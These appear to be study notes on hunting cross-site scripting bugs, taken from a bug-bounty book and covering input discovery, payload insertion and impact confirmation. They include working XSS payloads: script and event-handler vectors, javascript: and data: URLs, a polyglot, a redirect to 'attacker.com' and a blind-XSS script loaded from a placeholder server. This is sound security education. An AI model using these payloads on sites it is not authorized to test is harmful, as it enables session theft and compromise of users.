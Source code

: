 - Look for XSS in places where user input gets rendered on a page. The process will vary for the different types of XSS, but the central principle

remains the same: check for reflected user input

  

- But it’s important to remember that XSS vulnerabilities can also arise outside normal web applications. You can hunt for XSS in applications that communicate via non-HTTP protocols such as SMTP, SNMP, and DNS

  

- If you are interested in these techniques, you can check out Offensive Security’s Advanced Web Attacks and Exploitation training:

https://www.offensive-security.com/awae-oswe/.

  

- Before you start hunting for any vulnerability, it’s good to have Burp Suite or your preferred proxy on standby. Make sure you’ve configured your

proxy to work with your browser. You can find instructions on how to do that in Chapter 4

  

- Step 1: Look for Input Opportunities :

  

-> look for opportunities to submit user input to the target site. If you’re attempting stored XSS, search for places where input gets stored by the

server and later displayed to the user, including comment fields, user profiles, and blog posts. The types of user input that are most often reflected back to the user are forms, search boxes, and name and username fields in sign-ups.

  

-> Don’t limit yourself to text input fields, either. Sometimes drop-down menus or numeric fields can allow you to perform XSS, because even if you

can’t enter your payload on your browser, your proxy might let you insert it directly into the request.

  

-> You can still attempt to submit an XSS payload by intercepting the request via a web proxy and changing the input value:

POST /edit_user_age

(Post request body)

age=<script>alert('XSS by Vickie');</script>

  

-> If you’re hoping to find reflected and DOM XSS, look for user input in URL parameters, fragments, or pathnames that get displayed to the user.

A good way to do this is to insert a custom string into each URL parameter and check whether it shows up in the returned page. Make this string spe-

cific enough that you’ll be sure your input caused it if you see it rendered.

  

-> Insert your custom string into every user-input opportunity you can find. Then, when you view the page in the browser, search the page’s source code for it. This should give you an idea of which user input fields appear in the resulting web page.

  

- Step 2: Insert Payloads :

  

-> If you are interested in IoT vulnerabilities, check out OWASP’s IoTGoat project at https://github.com/OWASP/IoTGoat/.

  

-> As XSS defenses become more advanced, the XSS payloads that get around these defenses grow more complex too.

  

-> More Than a <script> Tag :

  

- Inserting <script> tags into victim web pages isn’t the only way to get your scripts executed in victim browsers. There are a few other tricks. First, you can change the values of attributes in HTML tags. Some HTML attributes allow you to specify a script to run if certain conditions are met

  

- For example, the onload event attribute runs a specific script after the HTML element has loaded: <img onload=alert('The image has been loaded!') src="example.png">

  

- Similarly, the onclick event attribute specifies the script to be executed when the element is clicked, and onerror specifies the script to run in case an error occurs loading the element

  

- Another way you can achieve XSS is through special URL schemes, like javascript: and data:. The javascript: URL scheme allows you to execute

JavaScript code specified in the URL

  

- For example, entering this URL will cause an alert box with the text XSS by Vickie to appear: javascript:alert('XSS by Vickie')

  

- This means that if you make the user load a javascript: URL, you can achieve XSS as well. Data URLs, those that use the data: scheme, allow you

to embed small files in a URL. You can use these to embed JavaScript code into URLs too:

data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"

  

- This URL will also generate an alert box, because the included data in the data URL is the base64-encoded version of the following script:

<script>alert('XSS by Vickie')</script>

  

- You can utilize these URLs to trigger XSS when a site allows URL input from users. A site might allow the user to load an image by using a URL and

use it as their profile picture, like this: https://example.com/upload_profile_pic?url=IMAGE_URL

  

- The application will then render a preview on the web page by inserting the URL into an <img> tag. If you insert a JavaScript or data URL, you can

trick the victim’s browser into loading your JavaScript code: <img src="IMAGE_URL"/>

  

- so you should always test by using multiple browsers when hunting for XSS.

  

-> Closing Out HTML Tags :

  

- When inserting an XSS payload, you’ll often have to close out a previous HTML tag by including its closing angle bracket. This is necessary when

you’re placing your user input inside one HTML element but want to run JavaScript using a different HTML element

  

- To close out the tag, your payload has to include the ending of an <img> tag before the JavaScript. The payload might look like this:

"/><script>location="http://attacker.com";</script>

  

-When injected into the <img> tag, the resulting HTML will look like this (with the injected portion in bold):

<img src=""/><script>location="http://attacker.com";</script>">

  

- Another way of approaching manual XSS testing is to insert an XSS polyglot, a type of XSS payload that executes in multiple contexts. Take a look at this polyglot payload published by EdOverflow at https://polyglot.innerht.ml/:

javascript:"/*\"/*`/*' /*</template>

</textarea></noembed></noscript></title>

</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

  

- Insert a string of special HTML characters often used in XSS payloads, such as the following: >'<"//:=;!--. Take note of which ones the application escapes and which get rendered directly

  

- Blind XSS flaws are harder to detect; since you can’t detect them by looking for reflected input, you can’t test for them by trying to generate an

alert box. Instead, try making the victim’s browser generate a request to a server you own.

  

- For example, you can submit the following payload, which will make the victim’s browser request the page /xss on your server:

<script src='http://YOUR_SERVER_IP/xss'></script>

  

- Then, you can monitor your server logs to see if anyone requests that page. If you see a request to the path /xss, a blind XSS has been triggered!

Tools like XSS Hunter (https://xsshunter.com/features) can automate this process.

  

- Although hackers typically discover new XSS vectors manually, a good way to automatically test a site for already-known XSS vectors is through fuzzing.

  

- Step 3: Confirm the Impact :

  

- Be aware that sites might also use user input to construct something other than the next returned web page. Your input could show up in future

web pages, email, and file portals.

  

- A time delay also might occur between when the payload is submitted and when the user input is rendered. This situation is common in log files and analytics pages. If you’re targeting these, your payload might not execute until later, or in another user’s account.

  

- And certain XSS payloads will execute under only certain contexts, such as when an admin is logged in or when the user actively clicks, or hovers over, certain HTML elements. Confirm the impact of the XSS payload by browsing to the necessary pages and performing those actions